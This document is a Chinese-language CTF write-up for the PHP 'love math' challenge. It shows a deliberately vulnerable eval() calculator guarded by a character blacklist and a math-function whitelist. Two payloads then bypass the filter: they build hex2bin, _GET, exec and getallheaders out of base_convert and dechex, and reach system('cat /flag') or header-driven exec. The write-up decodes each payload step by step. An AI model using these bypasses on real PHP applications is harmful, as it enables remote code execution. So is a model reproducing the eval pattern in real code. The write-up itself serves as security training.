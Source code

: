 审计

```php
<?php
error_reporting(0);
//听说你很喜欢数学，不知道你是否爱它胜过爱flag
if(!isset($_GET['c'])){
    show_source(__FILE__);
}else{
    //例子 c=20-1
    $content = $_GET['c'];
    if (strlen($content) >= 80) {
        die("太长了不会算");
    }
    $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]'];
    foreach ($blacklist as $blackitem) {
        if (preg_match('/' . $blackitem . '/m', $content)) {
            die("请不要输入奇奇怪怪的字符");
        }
    }
    //常用数学函数http://www.w3school.com.cn/php/php_ref_math.asp
    $whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
    preg_match_all('/[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*/', $content, $used_funcs);  
    foreach ($used_funcs[0] as $func) {
        if (!in_array($func, $whitelist)) {
            die("请不要输入奇奇怪怪的函数");
        }
    }
    //帮你算出答案
    eval('echo '.$content.';');
}
```



第一种payload构造方法：`$pi=base_convert(37907361743,10,36)(dechex(1598506324));($$pi){pi}(($$pi){abs})&pi=system&abs=cat /flag`

```php
base_convert(37907361743,10,36) => "hex2bin"
dechex(1598506324) => "5f474554"
$pi=hex2bin("5f474554") => $pi="_GET"   //hex2bin将一串16进制数转换为二进制字符串
($$pi){pi}(($$pi){abs}) => ($_GET){pi}($_GET){abs}  //{}可以代替[]
```

第二种payload：`$pi=base_convert,$pi(696468,10,36)($pi(8768397090111664438,10,30)(){1})`

```
base_convert(696468,10,36) => "exec"
$pi(8768397090111664438,10,30) => "getallheaders"
exec(getallheaders(){1})
操作的base_convert和(696468,10,36)都可以输出，中间用逗号隔开
```

